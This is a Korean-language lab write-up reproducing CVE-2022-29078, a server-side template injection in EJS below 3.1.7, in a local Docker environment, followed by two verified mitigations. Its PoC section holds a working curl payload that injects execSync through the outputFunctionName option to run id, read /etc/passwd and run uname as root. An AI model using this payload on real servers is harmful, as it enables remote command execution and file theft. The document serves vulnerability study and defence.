








# CVE-2022-29078 | EJS SSTI → RCE

> 화이트햇 스쿨 4기 (32반) - 우상범 ([@taka3636](https://github.com/taka3636))

<br/>

### 요약

EJS `< 3.1.7` 의 서버사이드 템플릿 인젝션(SSTI) 취약점(CVE-2022-29078)으로, 인증 없이 원격에서 서버의 임의 명령을 실행(RCE)할 수 있다. 본 문서는 Docker로 취약 환경을 구성해 PoC로 RCE를 재현하고, 두 가지 대응 방안(라이브러리 업그레이드 · 안전한 입력 전달)을 검증한다.

<br/>

### EJS 소개

EJS(Embedded JavaScript templates)는 Node.js 생태계에서 널리 쓰이는 템플릿 엔진이다. `<h1>Hello <%= id %></h1>` 처럼 HTML 안에 `<% %>` 태그로 자바스크립트를 삽입해 동적 화면을 만든다. 내부적으로 EJS는 템플릿 문자열을 **자바스크립트 함수로 컴파일**한 뒤 실행해 최종 HTML을 생성한다. 즉 "글자(템플릿)를 실행 코드(함수)로 바꾸는" 코드 생성기이며, 이 성질이 본 취약점의 근본 배경이 된다.

<br/>

### CVE-2022-29078 소개

EJS `< 3.1.7` 은 렌더링 옵션 `outputFunctionName` 값을 검증 없이 컴파일된 함수 소스에 삽입한다. 애플리케이션이 사용자 입력을 렌더 옵션으로 그대로 전달하면, 공격자가 이 옵션을 오염시켜 서버에서 임의 코드를 실행(RCE)할 수 있다. 인증 없이 원격에서 서버를 완전히 장악할 수 있어 심각도가 매우 높다.

- 영향 버전: EJS `< 3.1.7`
- 유형: 서버사이드 템플릿 인젝션(SSTI) → 원격 코드 실행
- 참고: [NVD CVE-2022-29078](https://nvd.nist.gov/vuln/detail/CVE-2022-29078)

<br/>

### 환경 구성

```
EJS/CVE-2022-29078/
├── docker-compose.yml     # 127.0.0.1 바인딩(격리)
├── Dockerfile             # node:18.20.4 (버전 고정)
├── app/
│   ├── server.js          # 취약 Express 앱
│   ├── package.json       # ejs 3.1.6 정확 고정
│   └── views/page.ejs
├── poc.sh                 # PoC 실행 스크립트
└── 1.png ~ 8.png          # 스크린샷
```

- 런타임: Node.js `18.20.4` 고정
- 취약 라이브러리: ejs `3.1.6` (기호 없이 정확 고정 — `^`/`~` 사용 시 패치 버전이 설치되어 재현 불가)
- 웹 프레임워크: express `4.18.2`
- 외부 커스텀 이미지 의존 없이 `docker compose up -d --build` 한 번으로 완성된다.





<br/>

### 취약 조건

아래 두 조건이 **동시에** 성립할 때 공격이 성립한다.

1. **라이브러리 결함**: ejs `< 3.1.7` 이 `outputFunctionName` 을 검증 없이 코드로 삽입
2. **안전하지 않은 사용**: 앱이 사용자 입력을 통째로 렌더 옵션으로 전달

```js
// app/server.js — 취약 지점
app.get('/page', (req, res) => {
  res.render('page', req.query);   // req.query 전체를 렌더 옵션으로 전달
});
```

Express는 `res.render('page', req.query)` 에서 사용자 입력(`req.query`)을 **렌더 옵션으로 통째로** EJS에 넘긴다. 이때 `qs` 파서가 `settings[view options][outputFunctionName]` 같은 대괄호 표기를 중첩 객체로 파싱하고, 그 값이 EJS 컴파일 옵션 `outputFunctionName` 에 병합된다. **즉 사용자가 옵션 자리에 심은 코드(함수)가 옵션에 붙어 EJS로 함께 넘어간다.** EJS는 이 값을 컴파일 함수 앞에 다음처럼 삽입한다.

```js
var <outputFunctionName값> = __append;
```

정상값이면 `var myOut = __append;` 처럼 무해하지만, 값에 세미콜론으로 문장을 끊고 코드를 넣으면 그 코드가 컴파일된 함수 실행 시 그대로 동작한다. 이 자리에 `execSync(...)` 를 넣어 **특정 파일을 읽거나 시스템 명령을 실행**시킬 수 있다.

<br/>

### 재현 절차

> 전제: Docker + Docker Compose 설치, 빌드 시 인터넷 연결.

```sh
# 1) 클론 후 폴더 이동
git clone https://github.com/gunh0/kr-vulhub.git
cd kr-vulhub/EJS/CVE-2022-29078

# 2) 빌드 및 기동
docker compose up -d --build
docker compose ps

# 3) 정상 동작 확인
curl "http://127.0.0.1:3000/page?id=world"     # -> <h1>Hello world</h1>

# 4) PoC 실행
bash poc.sh

# 5) 정리
docker compose down
```



<br/>

### PoC 코드

`poc.sh` — outputFunctionName 옵션 인젝션으로 세 명령을 서버에서 실행시켜 결과를 회수한다. `[1] id`(실행 주체), `[2] /etc/passwd`(임의 파일 읽기), `[3] uname`(실행 위치).

```bash
#!/usr/bin/env bash
# CVE-2022-29078 : EJS SSTI (outputFunctionName 옵션 인젝션) -> RCE
set -e
TARGET="http://127.0.0.1:3000"

run() {   # $1 = URL 인코딩된 셸 명령 (컨테이너에서 실행 후 결과 회수)
  curl -g -s -o /dev/null \
    "${TARGET}/page?id=x&settings[view%20options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('$1');s"
  docker compose exec -T vuln-ejs cat /tmp/out
}

echo "[1] 실행 권한 확인 (id) — root 여부"
run "id%20%3E%20/tmp/out"
echo "[2] 임의 파일 읽기 — /etc/passwd"
run "cat%20/etc/passwd%20%3E%20/tmp/out"
echo "[3] 시스템 정보 노출 — uname"
run "uname%20-a%20%3E%20/tmp/out"
```

- `curl -g` : URL 대괄호를 glob으로 해석하지 않도록 **필수** (없으면 `curl: (3) bad range`)
- 인코딩: 공백 `%20`, 리다이렉트 `>` `%3E`

<br/>

### 실행 결과

`poc.sh` 실행 결과. 정상 요청(`id=world`)은 `Hello world` 만 반환하지만, outputFunctionName 인젝션으로 주입한 명령이 서버에서 실행되어 그 출력이 회수된다.



- **[1] `id`** → `uid=0(root) gid=0(root)` : 주입 명령이 **root 권한으로 실행**됨.
- **[2] `/etc/passwd`** → 시스템 계정 파일 내용이 그대로 반환됨 : **서버의 임의 파일을 읽어낼 수 있음**(기밀성 침해).
- **[3] `uname`** → 호스트명이 `326f6f1b04b3`(컨테이너 ID)로 VM 호스트명(`ubuntu-QEMU-Virtual-Machine`)과 다름 : 명령이 **호스트가 아닌 컨테이너 내부에서 실행**됐음을 증명. 즉 root 권한은 `sudo` 때문이 아니라 취약 서버 프로세스(컨테이너 node = 기본 root)에서 비롯된 것이다.

인증 없는 원격 요청 하나로 root 권한 명령 실행 + 임의 파일 읽기가 가능하다 = CVE-2022-29078.

<br/>

### 대응 방안

**대응 1 — 라이브러리 업그레이드 (근본 대응)**

`package.json` 의 ejs 를 `3.1.7` 이상으로 상향한다. 3.1.7+ 는 `outputFunctionName` 을 정규식 `/^[a-zA-Z_$][0-9a-zA-Z_$]*$/` 로 검증해 세미콜론 등 비식별자 문자를 거부하므로, 동일 공격이 코드 실행 전에 차단된다.

```
Error: outputFunctionName is not a valid JS identifier.
```





**대응 2 — 안전한 입력 전달 (애플리케이션 방어)**

취약 버전(3.1.6)이라도 사용자 입력을 통째로 넘기지 않고 필요한 값만 전달하면, `settings[view options]` 병합 경로가 사라져 옵션 오염이 불가능하다. 정상 기능은 유지된다.

```js
// 변경 전 (취약)
res.render('page', req.query);
// 변경 후 (안전)
res.render('page', { id: req.query.id });
```





**권장**: 라이브러리 최신화(근본 대응)와 사용자 입력 최소 전달(심층 방어)를 **모두** 적용한다. 추가로 컨테이너를 비-root 사용자로 실행하면 RCE 시 피해 범위를 줄일 수 있다.

<br/>

### 참고

- [NVD - CVE-2022-29078](https://nvd.nist.gov/vuln/detail/CVE-2022-29078)
- [EJS GitHub - mde/ejs](https://github.com/mde/ejs)
